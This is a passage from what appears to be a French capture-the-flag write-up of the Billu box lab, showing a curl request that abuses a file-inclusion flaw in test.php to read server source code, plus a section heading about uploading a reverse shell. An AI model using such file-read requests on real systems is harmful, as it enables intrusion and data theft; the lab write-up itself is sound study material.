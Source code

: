 ![Affichage de l'image PHPMyAdmin-webshell.png](images/PHPMyAdmin-webshell.png)

## Formulaire d'upload et dépôt d'un reverse shell

La fonction ```Show Users``` affiche toutes les informations de la table ```users```.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/show.php"
--snip--
	$run='select * from users ';
--snip--
	   echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td>
	   <img src="uploaded_images/'.htmlspecialchars ($row['image'],ENT_COMPAT).'" 
	   height=90px width=100px></td></tr>';
--snip--
```

![Affichage de l'image Billubox_panel.png](images/Billubox_panel.png)
